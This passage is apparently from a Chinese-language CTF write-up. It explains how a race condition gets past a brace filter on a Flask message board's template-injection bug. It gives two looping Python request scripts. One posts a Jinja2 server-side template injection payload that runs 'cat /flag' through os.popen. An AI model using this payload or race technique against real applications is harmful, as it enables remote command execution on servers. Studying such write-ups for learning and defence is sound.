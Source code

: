 ```python
	
@app.route('/read', methods=['GET'])
def read_message():
	if "{" not in readmsg():
		show = show_msg.replace("{{message}}", readmsg())
		return render_template_string(show)
	return 'waf!!'
	

if __name__ == '__main__':
	app.run(host = '0.0.0.0', port = 5000)
```

可以看到/read路由存在ssti，但是他waf掉了最重要的{

但是可以看到这个/send路由会将传入的信息写入message.txt文件，在访问/read路由的时候则会读取message.txt文件。这么一来我们就可以考虑通过竞争的方式来绕过waf了。竞争思路大概就是我在很短的时间内连续发送两条信息，第一条信息是合法信息，而第二条信息是不合法的，那么就会存在一种情况，当第一条信息通过了判断，接下来要将文件的内容插入到模板中渲染的时候，刚好第二条不合法的信息覆写了message.txt，那么插入模板中的就是第二条不合法的信息了

接下来就是搓脚本发包

三个脚本

poc1

```python
import requests
while True:
    burp0_url = "http://node1.hgame.vidar.club:30762/app/send"
    burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "zh-CN,zh;q=0.9", "Origin": "http://node1.hgame.vidar.club:30762", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://node1.hgame.vidar.club:30762/app/index", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    burp0_data = {"message": "{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}"}
    res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(res.status_code)
    
```

poc2

```python
import requests
while True:
    burp0_url = "http://node1.hgame.vidar.club:30762/app/send"
    burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "zh-CN,zh;q=0.9", "Origin": "http://node1.hgame.vidar.club:30762", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://node1.hgame.vidar.club:30762/app/index", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    burp0_data = {"message": "123"}
    res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(res.status_code)
```
